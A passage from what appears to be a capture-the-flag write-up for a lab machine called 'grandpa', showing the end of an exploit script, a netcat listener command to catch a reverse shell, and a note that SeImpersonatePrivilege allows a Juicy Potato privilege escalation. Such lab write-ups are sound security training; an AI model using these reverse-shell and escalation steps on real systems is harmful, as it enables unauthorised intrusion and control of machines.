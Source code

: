 ```python
s.close()
```

Then set up a listener and try the exploit:

```bash
nc -nvlp 6969
python3 exploit.py
```

And this returns a shell but does not give `user.txt`:

![user1](./grandpa/user1.png)

Looking at current privledges shows that `SeImpersonatePrivilege` is given. This means that the Juicy Potato series of exploits should work:

- https://github.com/ohpe/juicy-potato

![user2](./grandpa/user2.png)
